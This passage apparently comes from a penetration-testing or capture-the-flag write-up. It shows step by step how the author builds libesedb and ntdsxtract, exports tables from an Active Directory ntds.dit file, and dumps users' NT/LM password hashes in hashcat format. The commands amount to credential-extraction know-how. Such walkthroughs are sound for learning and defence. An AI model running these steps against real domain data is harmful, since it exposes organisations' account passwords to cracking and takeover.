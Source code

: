 Now that I had the files I could work on extracting the hashes. This required a few steps which I referenced from ropnop's blog https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/

First I needed libesedb which is a tool for parsing the ESE (Extensible Storage Engine) database where Active Directory data is stored. I downloaded the latest tarball and extracted it
 ```
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
 ```

I installed the necessary build tools
```
apt install autoconf automake autopoint libtool pkg-config
```

And then ran configure make and install on esedb
```
./configure
 make
 make install
 ldconfig
```

esedbexport was run against ntds.dit which exports the .dit database into parseable tables
```
esedbexport -m tables ntds.dit
```

Next I needed dsusers.py so I installed ntdsextract.
```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract/
python setup.py build && python setup.py install
```

The ntdsxtract tool dsusers.py is used to dump user information and NT/LM password hashes from an extracted table. It requires three things: the datatable and link_table which the esedbexport commands provided and the system hive (bin file).

The syntax is:

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```

I plugged in the paths to the required files and set the pwdformat to ocl which formats the output for hashcat. I piped the output to the tee command which displays the output on screen as well as saves to a file, all_user_info.txt in this case.

```
~/tools/ntdsxtract/dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive ntds.bin --passwordhashes --pwdformat ocl --ntoutfile ntout.txt --lmoutfile lmout.txt | tee all_user_info.txt
```
